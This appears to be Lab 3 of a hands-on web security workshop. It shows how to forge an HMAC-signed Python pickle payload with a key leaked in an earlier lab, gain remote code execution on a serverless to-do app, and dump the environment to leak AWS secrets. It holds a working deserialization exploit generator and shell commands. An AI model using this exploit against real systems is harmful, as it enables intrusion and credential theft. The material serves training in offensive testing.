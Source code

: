 # Lab 3

## Introduction

In the last lab, we found and exploited an XXE bug in the application. Using that bug, we were able to disclose source code of the application, which had the HMAC key hard-coded.

In this lab, we will use that HMAC key to generate a valid, malicious pickle data to gain remote code execution in the serverless container environment.

## Methodology

We discovered early on (and confirmed via our source code l00t) that the application parses XML import files, grabs `data` and `hmac` elements, validates the data using the HMAC, and then unpickles the data. If the data doesn't pass the HMAC check, it is rejected. Now that we have an HMAC key, we can leverage a "feature" of Python's pickle deserialization to gain code execution! In this lab, we'll:

1. Craft a pickle deserialization exploit
2. Generate an HMAC digest of that exploit that will pass the check
3. Automate payload generation with a Python script
4. Upload our exploit payload and observe the results

## Crafting a pickle deserialization exploit

The primary goal of our exploit is going to be to read the environment; because sensitive and dynamic data is often passed into the container via the environment, we are likely to find something useful there.

The Python `pickle` library is a serialization library that allows you to serialize Python objects; that is, flatten the object to a byte string, for transport to another Python process. Once it reaches the destination, it can be deserialized and used as an object again.

Let's deserialize our payload from before. Grab the body of the `data` element from your exported to-do list, open a Python interpreter, and deserialize it as follows:

```
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode('KGxwMAooZHAxClZsaXN0TmFtZQpwMgpWTTBycmlzCnAzCnNWdGFza0Rlc2NyaXB0aW9uCnA0ClZGb28gdGhlIGJhcgpwNQpzVnRhc2tJZApwNgpWNzlMclhrTjBtNEdYS2kzawpwNwpzYShkcDgKVmxpc3ROYW1lCnA5ClZNMHJyaXMKcDEwCnNWdGFza0Rlc2NyaXB0aW9uCnAxMQpWRnJvYiB0aGUgYml6CnAxMgpzVnRhc2tJZApwMTMKVkNWbDNrSWVHYVc0cVFIZjcKcDE0CnNhKGRwMTUKVmxpc3ROYW1lCnAxNgpWTTBycmlzCnAxNwpzVnRhc2tEZXNjcmlwdGlvbgpwMTgKVkJhciB0aGUgZnJvYgpwMTkKc1Z0YXNrSWQKcDIwClZZTHZvSlU3N2xYZTMwaHoxCnAyMQpzYS4='))

# Output: [{u'listName': u'M0rris', u'taskDescription': u'Foo the bar', u'taskId': u'79LrXkN0m4GXKi3k'}, ...
```

The `data` element contains a list of all the tasks we exported, in a pickle-serialized format. Easy enough!

Before we craft our payload, let's revisit how the pickle-deserialization vulnerability works. When an object is being pickled, if Python doesn't know how to pickle it (i.e. it is not a type from the standard library), the Pickle library looks for a class method called `__reduce__` that describes how to pickle the object. The function returns a tuple, which among other things, contains a function that serves as an entrypoint when the object is being unpickled.

You can read more [here](https://docs.python.org/2/library/pickle.html?highlight=__reduce__#object.__reduce__), but the gist is that we can craft a Python class that implements `__reduce__` in a way that will cause the interpreter on the serverless application to spit out a message. Let's try an initial payload:

```
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())
    print('<data>' + base64.b64encode(data) + </data>)

main()
```

Let's take a look at what this does.

While `__reduce__` can return a 5-tuple, only the first two items are required:

1. A function that the pickle library should call when deserializing the object on target
2. Arguments to that function

In this case, we will use  `subprocess.check_output` to invoke a shell and print the string "Hello World".

Run this Python script to see what it prints.

## Generating an HMAC to make it legit

Since we were able to capture the HMAC key in the previous lab, let's generate an HMAC digest of this pickle payload, to ensure the application will accept it for deserialization. Remember, if the XML doesn't contain all valid fields or contains invalid fields (including invalid Pickle data), we'll never reach the deserialization code.

Update your Python payload generator to calculate the HMAC, using our captured key:

```
import cPickle
import subprocess
import base64
import hmac
import hashlib

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())

    h = hmac.new('\x16q\x1c\x10\xfa\xa1\xf1\xf0}%\x95\xce\xa2\xf7\xd1\x8c-\rr\xe5\x91\x9eLS\x15\xbf\xe4\xc4\xd6F\x96\xbe', data, hashlib.sha256)
    digest = h.hexdigest()

    print('<?xml version="1.0"?>')
    print('<backup>')
    print('  <data>' + base64.b64encode(data) + '</data>')
    print('  <hmac>' + digest + '</hmac>')
    print('</backup>')

main()
```

Running that script should provide a valid document that we can import to our todo list.

## Uploading the payload

Run the Python script to generate your pickle exploit payload, save the payload to disk:

```
python make_pickle.py >Desktop/pickle_exploit.xml
cat Desktop/pickle_exploit.xml
```

Now upload it using the Import functionality:

![Pickle hello-world exploit](./images/3-pickle-hw.png)

It worked!

Let's use this code execution to read the environment. Change your pickle exploit payload to run the command `/bin/sh -c declare`; this will dump the environment back to us! Upload your payload, and see the results:

![Getting the environment via pickle deserialization](./images/3-env.png)

See anything interesting?

## Extra credit

See if you can find the names of all the lists people have created for this workshop.

## Recap

We were able to leverage pickle deserialization to gain code execution on the serverless container, which enabled us to leak AWS secrets from the environment. In order to have the application deserialize that pickle data, we needed to generate a valid HMAC digest using the key leaked in Lab 2.

## Vulnerabilities covered

| Designation | Description | Comment |
| :---: | --- | --- |
| A2:2017 | Broken Authentication | Pickle data validation is bypassed with leaked HMAC key |
| A5:2017 | Broken Access Control | (extra credit) |
| A8:2017 | Insecure Deserialization | Pickle deserialization is vulnerable to exploitation via `__reduce__` |
